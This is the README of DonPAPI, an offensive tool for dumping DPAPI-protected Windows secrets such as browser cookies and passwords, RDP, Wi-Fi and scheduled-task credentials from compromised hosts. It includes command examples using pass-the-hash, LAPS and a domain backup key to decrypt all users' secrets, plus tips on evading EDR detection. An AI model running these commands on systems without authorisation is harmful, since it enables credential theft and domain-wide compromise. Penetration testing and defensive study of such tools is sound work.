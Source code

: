 # DonPAPI
Dumping revelant information on compromised targets without AV detection

## DPAPI dumping
Lots of credentials are protected by [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).

We aim at locating those "secured" credentials, and retrieve them using :
- User password
- Domaine DPAPI BackupKey
- Local machine DPAPI Key (protecting `TaskScheduled` blob)

## Currently gathered info
- Windows credentials (Taskscheduled credentials & a lot more)
- Windows Vaults
- Windows RDP credentials 
- AdConnect (still require a manual operation)
- Wifi key
- Intenet explorer Creentials
- Chrome cookies & credentials
- Firefox cookies & credentials 
- VNC passwords
- mRemoteNG password (with default config)

## Check for a bit of compliance
- SMB signing status
- OS/Domain/Hostname/Ip of the audited scope

## Operational use

With local admin account on a host, we can :
- Gather machine protected DPAPI secrets
  - ScheduledTask that will contain cleartext login/password of the account configured to run the task
  - Wi-Fi passwords
- Extract Masterkey's hash value for every user profiles (masterkeys being protected by the user's password, let's try to crack them with Hashcat)
- Identify who is connected from where, in order to identify admin's personal computers. 
- Extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)
- Gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant.

With a user password, or the domain PVK we can unprotect the user's DPAPI secrets.  

## Examples

Dump all secrets of the target machine with an admin account : 

```bash
DonPAPI.py domain/user:passw0rd@target
```

Using user's hash

```bash
DonPAPI.py --hashes <LM>:<NT> domain/user@target
```

Using kerberos (-k) and local auth (-local_auth)

```bash
DonPAPI.py -k domain/user@target
DonPAPI.py -local_auth user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI.py -laps domain/user:passw0rd@target
```

It is also possible to provide the tool with a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user2:pass2
...
```

```bash
DonPAPI.py -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool. 

```bash
dpapi.py backupkey --export
```

This backup key can then be used to dump all domain user's secrets!

`python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list`

Target can be an IP, IP range, CIDR, file containing list targets (one per line)


## Opsec consideration
The RemoteOps part can be spoted by some EDR. It can be disabled using `--no_remoteops` flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested. 

## Installation 
```
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
python3 -m pip install -r requirements.txt
python3 DonPAPI.py
```

## Credits
All the credits goes to these great guys for doing the hard research & coding : 
- Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)) for most of the DPAPI research (always greatly commented, <3 your code)
- Alberto Solino ([@agsolino](https://twitter.com/agsolino)) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket. 
- [Alesandro Z](https://github.com/AlessandroZ) & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur. 
- dirkjanm [@_dirkjan](https://twitter.com/_dirkjan) for the base code of adconnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. I learned so much on so many subjects thanks to you. <3
- [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
- All the Team at [@LoginSecurite](https://twitter.com/LoginSecurite) for their help in debugging my shity code (special thanks to [@layno](https://github.com/clayno) & [@HackAndDo](https://twitter.com/HackAndDo) for that)

## Todo
- Finish ADSync/ADConnect password extraction
- CREDHISTORY full extraction
- Extract windows Certificates
- Further analysis ADAL/msteams
- Implement Chrome <v80 decoder
- Find a way to implement Lazagne's great modules

# Changelog

  ```
  v1.0
  ----
  Initial release
  ```
